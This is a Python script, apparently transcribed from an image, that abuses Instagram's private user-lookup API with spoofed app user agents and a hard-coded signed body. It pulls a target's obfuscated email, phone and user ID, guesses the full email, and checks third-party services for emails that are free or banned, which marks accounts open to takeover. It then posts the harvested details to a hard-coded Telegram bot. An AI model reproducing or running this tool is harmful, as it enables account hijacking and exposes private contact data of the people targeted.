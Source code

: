 import requests,os,random
from time import sleep
user_agent = [
    "Instagram 99.4.0 S3od_al3nzi (Dmaral3noOoz)",'Instagram 155.0.0.37.107 Android (28/9; 320dpi; 720x1468; samsung; SM-A102U; a10e; exynos7885; en_US; 239490550)',
    'Instagram 64.0.0.12.96 (iPhone8,1; iOS 12_0_1; pt_BR; pt-BR; scale=2.00; gamut=normal; 750x1334; 124976489)',
    'Instagram 8.4.0 (iPhone7,2; iPhone OS 9_3_2; nb_NO; nb-NO; scale=2.00; 750x1334',
    'Instagram 93.1.0.19.102 Android (21/5.0.2; 240dpi; 540x960; samsung; SM-G530H; fortuna3g; qcom; ar_AE; 154400379)'
]
ic="874919066"
X=int(input("[?] With telegram ? \n[!] 0 = NO | 1 = YES\n+> "))
if X == 1 :
	try:
		tel=requests.post(f"https://api.telegram.org/bot2025157803:AAHetK41bvjw0ker2huKvoUeXwyWzYIf_-0/sendMessage?chat_id={ic}&text=HI\nIf you have a problem tell me\nINSTA : @M0B.STORE | TELE : @ZXXXXZV")
	except:
		print("[!] Try with VPN ")
		input("")
		exit()
else:
	pass
os.system('cls' if os.name == 'nt' else 'clear')#DOOM
print("""\033[0;97m𝐈𝐍𝐒𝐓𝐀 : 𝟗𝟔𝟖.𝐎𝐏𝐒\n\033[1;34m𝐈𝐟 𝐲𝐨𝐮 𝐡𝐚𝐯𝐞 𝐚 𝐩𝐫𝐨𝐛𝐥𝐞𝐦, 𝐭𝐞𝐥𝐥 𝐦𝐞 𝐨𝐧 𝐈𝐧𝐬𝐭𝐚𝐠𝐫𝐚𝐦""")
def ops ():
	print('\n'+'\033[1;30m='*20+'\n')
	user=input("\033[1;30m[\033[0;37m?\033[1;30m] username or url user :\033[0;37m")
	try:
		user=user.split("/")[3]
		user=user.split("?")[0] or user.split("/")[0]
	except:
		pass
	url = "https://i.instagram.com:443/api/v1/users/lookup/"
	cookies = {"mid": "XOSINgABAAG1IDmaral3noOozrK0rrNSbPuSbzHq"}
	x=random.choice(user_agent)
	headers = {"Connection": "close", "X-IG-Connection-Type": "WIFI", "X-IG-Capabilities": "3R4=",
           "Accept-Language": "ar-AE",
           "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
           "User-Agent": x,
           "Accept-Encoding": "gzip, deflate"}
	data = {"signed_body": "35a2d547d3b6ff400f713948cdffe0b789a903f86117eb6e2f3e573079b2f038.{\"q\":\"%s\"}" % user }
	try:
		re = requests.post(url, headers=headers, cookies=cookies, data=data)
		if re.status_code == 200:
			pass
		elif re.status_code == 409 or 404:
			print("\033[1;31m[!] username bad !")
			print('\n'+'\033[1;30m='*20+'\n')
			ops()
		elif re.status_code == 429:
			print("\033[1;31m[!] wait 5m")
			print('\n'+'\033[1;30m='*20+'\n')
			sleep(60*5)
			ops()
		info = re.json()
	except:
		print("\033[1;31m[!] there is no Internet")
		print('\n'+'\033[1;30m='*20+'\n')
		ops()
	try:
		print("\033[1;30m[\033[0;37m$\033[1;30m] Email :\033[1;32m "+info['obfuscated_email'])
		m1=(user[0])
		m2=(user[-1])
		s=info["obfuscated_email"].split("@")[0]
		m3=(s[0])
		m4=(s[-1])
		if m1 == m3 and m2 == m4:
			v=0
			if '@yahoo.com' in info["obfuscated_email"]:
				s1="@yahoo.com"
			elif '@gmail.com' in info["obfuscated_email"]:
				s1="@gmail.com"
			elif "@a**.com" in info["obfuscated_email"]:
				s1="@aol.com"
			elif "@hotmail.com" in info["obfuscated_email"]:
				s1="@hotmail.com"
			elif "@o*****.sa" in info["obfuscated_email"]:
				s1="outlook.sa"
			elif "@g*****.com" in info["obfuscated_email"]:
				s1="@googlemail.com"
			elif '@m***.com' in info["obfuscated_email"]:
				s1="@mail.com"
			elif '@f*****.fm' in info["obfuscated_email"]:
				s1="@fastmail.fm"
			else:
				s1="@"+info["obfuscated_email"].split("@")[1]
			if "*" in s1:
				print("\033[1;30m[\033[0;37m$\033[1;30m] Available : \033[1;31mNO")
				ops()
			else:
				eml=user+s1
				p=requests.get("http://tweakpy-filza.ueuo.com/api.php?email="+eml).text
				if "False" in p:
					if v == 1:
							rm=requests.get("https://jftv.pythonanywhere.com/IGMail/"+user+"@googlemail.com").text
					else:
							rm=requests.get("https://jftv.pythonanywhere.com/IGMail/"+eml).text
					if "Linked Or Ban" in rm:
						print("\033[1;30m[\033[0;37m$\033[1;30m] Available : \033[1;32mYES")
						print("\033[1;30m[\033[0;37m$\033[1;30m] Email Available :\033[1;32m "+eml)
					else:
						print("\033[1;30m[\033[0;37m$\033[1;30m] Available : \033[1;31mNO")
						ops()
				else:
					print("\033[1;30m[\033[0;37m$\033[1;30m] Available : \033[1;31mNO")
					ops()
		else:
			print("\033[1;30m[\033[0;37m$\033[1;30m] Available : \033[1;31mNO")
			ops()
	except:
		print("\033[1;30m[\033[0;37m$\033[1;30m] Email :\033[1;31m False")
		ops()
	try:
		po=info['obfuscated_phone']
		print("\033[1;30m[\033[0;37m$\033[1;30m] Phone number :\033[1;32m "+ po)
	except:
		print("\033[1;30m[\033[0;37m$\033[1;30m] Phone number : \033[1;31mFalse")
		po="False"
	try:
		iid=info['user_id']
		print(f"\033[1;30m[\033[0;37m$\033[1;30m] user id :\033[1;32m {iid}")
	except:
		print("\033[1;30m[\033[0;37m$\033[1;30m] user id : \033[1;31mFalse")
	try:
		uid=info['user_id']
		x=requests.get(f"https://o7aa.pythonanywhere.com/?id={uid}").text
		x1=str(x).split('"data": ')[1]
		x2=str(x1).split(', "telegram":')[0]
		print("\033[1;30m[\033[0;37m$\033[1;30m] data :\033[1;32m "+x2)
	except:
		print("\033[1;30m[\033[0;37m$\033[1;30m] data : \033[1;31mFalse ")
	if X == 1:
		tel=requests.post(f"https://api.telegram.org/bot2025157803:AAHetK41bvjw0ker2huKvoUeXwyWzYIf_-0/sendMessage?chat_id={ic}&text=NEW OLD ACC\nUser : {user}\nEmail : {eml} Available or ban\nPhone : {po}\nData : {x2}\nINSTA : @M0B.STORE | TELE : @ZXXXXZV")
	else:
		pass
	print('\n'+'\033[1;30m='*20+'\n')
	ops()
ops()
